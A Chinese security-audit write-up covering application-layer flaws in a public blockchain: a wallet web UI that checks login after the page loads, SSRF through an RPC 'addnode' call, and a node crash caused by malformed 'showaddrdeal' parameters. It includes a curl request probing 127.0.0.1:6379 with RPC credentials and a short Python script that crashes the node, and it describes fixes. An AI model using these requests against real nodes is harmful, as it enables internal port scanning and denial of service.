# 公链自身的应用层漏洞案例浅析 - 先知社区

公链自身的应用层漏洞案例浅析

- - -

## 文章前言

随着区块链技术的快速发展和广泛应用，公链上的应用程序也变得越来越多，然而与传统的应用程序一样，公链自身应用层也面临着各种安全问题和漏洞，公链应用层漏洞是指在公链上开发的应用程序中存在的安全漏洞和弱点，这些漏洞可能会导致恶意攻击者利用系统的弱点进行各种攻击，例如：盗取用户资金、篡改数据、执行恶意合约等，在本文中我们将以几个常见的公链应用层漏洞类型进行介绍并提供简单的示例和说明

## 攻防案例

### WEB UI 访问控制

#### 基本介绍

公链前端 Web UI(用户界面) 是公链应用层中的一个重要组成部分，它提供了用户与公链应用程序进行交互的界面，公链前端 Web UI 通常以网页形式呈现，用户可以通过网页浏览器访问和操作公链应用

#### 主要功能

公链前端 Web UI 的功能包括但不限于以下几个方面：

-   用户账户管理：公链前端 Web UI 允许用户创建、导入和管理他们的账户，用户可以生成公私钥对、设置密码、备份和恢复账户等操作
-   资产查看和转账：公链前端 Web UI 显示用户的资产余额和交易历史，用户可以查看他们的数字货币余额，执行转账操作，发送和接收数字货币
-   智能合约交互：公链前端 Web UI 提供与智能合约进行交互的功能，用户可以通过界面调用智能合约的方法、查看合约状态和执行合约交易
-   交易历史和区块浏览：公链前端 Web UI 显示公链上的交易历史和区块信息，用户可以查看特定交易的详情，浏览最新的区块和区块链的状态
-   用户身份验证和安全性：公链前端 Web UI 提供用户身份验证和安全性措施，确保用户的账户和交易信息的安全，这可能包括密码加密、双重身份验证等安全功能

#### 审计示例

在对某公链进行安全审计时发现公链提供了 web UI 交互式界面，遂对 web 界面的安全性进行了黑盒测试，发现未进行身份认证的用户在点击相关功能模块时会优先跳转到该功能模块，之后才会判断当前用户是否已经通过身份认证，如果没有通过会跳转到登录认证页面，同时部分接口存在访问控制缺陷，攻击者可以通过 burpsuite 让页面优先停留在功能模块页面之后通过调用相关接口来查看敏感信息或者执行敏感操作，下面以 wallet 为例做说明：  
对源代码进行跟踪分析发现，在源代码中的 app.controllers.js 文件中有一个用于监听页面更改的逻辑设计，但是在这里页面的更新却先于判断用户是否通过认证的逻辑，存在设计缺陷，具体代码如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105225-6eb933c2-be51-1.png)  
wallet.controller.js 逻辑设计

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105243-799a447a-be51-1.png)  
之后对 WalletCtrl 进行了跟踪分析，在 WalletController 类中发现对于钱包的各种操作（创建地址账户、删除地址账户、导入地址账户、获取钱包信息等）接口在调用之前未对调用者身份进行认证：  
walletControaller 处理逻辑：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105301-8481b422-be51-1.png)  
walletService 处理逻辑  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105318-8e663396-be51-1.png)

未认证的用户点击“wallet”选项会先进入 wallet 界面后跳转至认证页面：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240129104126-e60f44c2-be4f-1.png)

之后可以好看到钱包的地址账户信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129104328-2e9adddc-be50-1.png)  
之后点击“删除账号，在新弹出的框汇总点击"确认"

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129104401-4235418e-be50-1.png)

之后account#10账号成功删除：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240129104836-e63f31ae-be50-1.png)  
如果攻击者可以物理接触并获取到 seed phrase 则可以本地 web 实现转账，无视这里的认证

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105000-18138b94-be51-1.png)

同时可以创建账号：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105033-2bd32bb2-be51-1.png)  
也可以查看新建的地址账户：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105136-51ab4630-be51-1.png)

### 添加节点处 SSRF

#### 风险说明

当公链允许 RPC 远程调用，且无需认证或认证口令较弱可以通过爆破的方式进行破解的情况下，攻击者可以利用 RPC 远程“添加节点”的功能进行 SSRF 攻击，例如通过对特定的 IP 地址和端口组合结合服务器端响应的时间（端口开放则妙级响应，端口未开放则超时 5s 响应）探测服务器端私有 IP 地址的端口开放情况，用于后续攻击测试

#### 漏洞详情

在添加节点 RPC 接口处未对目标 IP 地址作限制，攻击者可通过构造特定的 IP 地址和端口组合并结合服务端响应时间探测服务端私有 IP 的端口开放情况，用于进一步攻击。  
addnode 逻辑设计：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105531-ddb176fe-be51-1.png)  
请求测试参数

```plain
curl --user rubyrpc:BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC --data-binary '{"jsonrpc": "2.0", "id":"rpcaddnode", "method": "addnode", "configs": ["127.0.0.1:6379", "onetry"] }' -H 'content-type: text/plain;' http://192.168.11.192:5112
{"result":null,"error":null,"id":"rpcaddnode"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105552-e9e37666-be51-1.png)  
节点端开启的端口监听成功捕获到请求源：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105603-f0e12008-be51-1.png)

#### 防御措施

校验目标节点 IP 地址，防止添加本地循环地址被攻击者用于恶意探测本地开放端口服务，同时远程 RPC 调用时进行身份认证

### RPC 参数畸形请求导致 DDOS

#### 基本介绍

公链 RPC(远程过程调用) 接口是公链提供的一种方式，允许外部应用程序通过网络与公链进行通信和交互，RPC 接口提供了一组命令和方法，允许开发者查询和操作公链的状态、执行交易、访问智能合约等功能

#### 漏洞简介

之前在做一个公链审计的时候，发现一个有趣的现象，当用户调用 Showaddrdeal 来查看 address，txid 等详细交易信息时，如果传入的 address 为根节点或者传入的 txid 不存在、为空、非法都会导致根节点直接 Crash，很是有意思，后期发现是因为后端未做合法性校验导致的  
showaddrdeal 逻辑：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105913-61f3749e-be52-1.png)  
测试脚本：

```plain
#!/usr/bin/env python3
from gevent import pool,monkey
monkey.patch_all()
import requests

def exp():
    URL = "http://192.168.11.192:5112"
    data = {
        "jsonrpc": "2.0",
        "method": "showaddrdeal",
        "configs":["18qNoDvvfNgCFa29rNVvvM3ZKi1MpsgSZZQUiJ",""],
        "id":"rpcshowaddrdeal"
   }
   s = requests.session()
   s.auth = ('xxxrpc','BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC')
   response = s.post(url=URL,json=data)
   print(response.json())
def run():
   p = pool.Pool()
   for i in range(1):
      p.apply_async(exp)
      p.join()
if __name__ == '__main__':
   run()
```

运行脚本后：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129105956-7b603c82-be52-1.png)

之后远程 RPC 无法正常调用，被拒绝连接：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129110013-8595f2b4-be52-1.png)

#### 修复方法

下面的修复方法是经过后期与客户商议之后一起总结的，后期发现客户的修复没有问题，再次测试未出现相关安全问题：  
showaddrdeal 新增验证参数为空的验证：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240129110045-99018354-be52-1.png)

## 文末小结

本篇文章简单的介绍了一下公链应用层方面的几个安全漏洞示例，主要包括了 WEB UI 的安全、RPC 接口的安全等，从公链源代码进行了简易的刨析，当然公链中还有很多的应用层面的漏洞值得大家去思考和挖掘，例如：RCP 的其他安全问题 (DOS、鉴权错误、未授权等)、Geth 的安全问题、安全策略问题等等
